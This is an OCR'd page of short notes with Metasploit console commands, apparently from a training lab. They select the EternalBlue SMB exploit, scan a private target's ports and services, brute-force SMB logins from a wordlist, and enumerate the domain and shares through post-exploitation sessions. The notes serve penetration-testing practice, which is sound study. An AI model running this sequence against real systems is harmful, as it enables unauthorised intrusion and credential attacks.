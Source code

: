 # select exploit

use exploit/windows/smb/ms17_010_eternalblue

# set

setg rhosts 10.10.148.128
use auxiliary/scanner/portscan/tcp
run

search smb_version
use auxiliary/scanner/smb/smb_version
run

search netbios
use auxiliary/scanner/netbios/nbname
run

search http_version
show options
setg rport 8000
use auxiliary/scanner/http/http_version
run

search smb_login
show options
set rport 445
setg SMBUser testuser
setg PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
run

# enum domain name

Use post/windows/gather/enum_domain
show options
session -i

session -i 1
run

# search enum

search enu_share
use 0
show options
sessions -l
set session 2
run
